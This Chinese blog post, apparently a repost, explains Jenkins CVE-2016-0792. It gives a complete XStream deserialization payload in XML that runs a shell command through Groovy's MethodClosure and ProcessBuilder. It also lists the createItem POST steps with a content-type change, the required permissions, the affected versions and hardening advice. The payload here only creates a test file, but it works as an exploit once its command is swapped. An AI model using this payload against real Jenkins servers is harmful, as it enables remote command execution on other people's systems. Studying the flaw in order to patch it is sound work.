



# Jenkins-CVE-2016-0792 漏洞利用及修复建议 - sevck - 博客园

> 原文：[`www.cnblogs.com/sevck/p/5225629.html`](https://www.cnblogs.com/sevck/p/5225629.html)

## 漏洞概述：

国外网站 Contrast Security 于 2016 年 2 月 24 日在公开了 Jenkins 近日修复的一个可通过低权限用户调用 API 服务致使的命令执行漏洞详情。通过低权限用户构造一个恶意的 XML 文档发送至服务端接口，使服务端解析时调用 API 执行外部命令。

## 利用方法：

### 1. 登陆低权限用户 test

权限为：Overall 的 read 权限+Job 的 create 权限

 

将下面 xml 数据包 post 到创建项目页面，项目名称任意命名，这里暂取 qt-sec ，完整链接如下：

[`178.18.120.133:8181/createItem?name=qt-sec`](http://178.18.120.133:8181/createItem?name=qt-sec)

xml 数据包如下（string 节点的红色部分为要执行的命令和对象）：

<map>

  <entry>

    <groovy.util.Expando>

      <expandoProperties>

        <entry>

          <string>hashCode</string>

          <org.codehaus.groovy.runtime.MethodClosure>

            <delegate class="groovy.util.Expando" reference="../../../.."/>

            <owner class="java.lang.ProcessBuilder">

              <command>

                <string>touch</string>

                <string>/tmp/qingteng-test-1</string>

              </command>

              <redirectErrorStream>false</redirectErrorStream>

            </owner>

            <resolveStrategy>0</resolveStrategy>

            <directive>0</directive>

            <parameterTypes/>

            <maximumNumberOfParameters>0</maximumNumberOfParameters>

            <method>start</method>

          </org.codehaus.groovy.runtime.MethodClosure>

        </entry>

      </expandoProperties>

    </groovy.util.Expando>

    <int>1</int>

  </entry>

</map>

### 2. 通过 burpsuite 截获修改数据包

此处只需把 Content-Type: application/x-www-form-urlencoded 改为 Content-Type: application/xml，然后发送数据包。

截获数据包，不进行修改发送，产生 400 响应状态码，并报“No mode given”错误，经测试发现命令执行失败：

 

截获数据包，修改内容类型值，产生 500 响应状态码，经测试命令执行成功，并在目标服务器的 tmp 目录下创建了 qingteng-test-1 文件：

 

生成的文件如下：

 

## 利用总结：

### 1. 权限限制条件：

无论匿名用户，还是登陆用户，权限必须具有“Overall 的 read 权限和 Job 的 create 权限”两个权限（当然具有其他权限越多越好，若拥有 administrater 权限，其他任何权限都不是必须条件了，因为 administrater 为最高权限，故这里不考虑 administrater）。因为该个漏洞是利用的 createitem 创建 job 的功能去调用 api，所以 create 是必须的，而 Jenkins 最基本的权限是 overall 的 read 权限，用户必须赋予阅读的权限，不然什么都看不到。

### 2. 版本限制条件：

jenkins 版本小于 1.650 （1.650 版本已修复该问题）

### 3. post 数据内容类型：

构造一个恶意的 XML 文档发送至服务端接口时，内容类型需注意为 xml。

## 安全加固

l 更新 Jenkins 至最新版本 1.650 以上。

l jenkins 做访问控制，收入内网不开放往外网。

l 禁止 jenkins 的匿名访问权限。

l 保证每个 jenkins 账号不为弱口令。

参考链接：

https://www.contrastsecurity.com/security-influencers/serialization-must-die-act-2-xstream

https://www.seebug.org/vuldb/ssvid-90813

https://www.youtube.com/watch?v=JgjYrwqI6nA

http://blog.csdn.net/wangmuming/article/details/22926025